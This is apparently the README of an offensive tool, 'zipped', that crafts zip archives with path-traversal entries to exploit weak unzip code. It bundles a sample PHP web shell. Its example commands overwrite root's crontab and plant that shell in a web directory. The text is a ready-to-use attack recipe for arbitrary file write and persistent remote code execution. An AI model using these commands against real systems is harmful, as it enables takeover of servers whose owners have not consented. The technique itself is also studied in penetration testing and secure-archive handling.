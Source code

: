 # zipped
Tool to create custom zip files with path traversal for certain bad unzip implementations.

Includes sample PHP shell (sh.php)

# Example Usage
`./zipped crontab cron.zip ../../../../../../../var/spool/cron/crontabs/root`
`./zipped sh.php sh.zip ../../../../../www/sh.php`
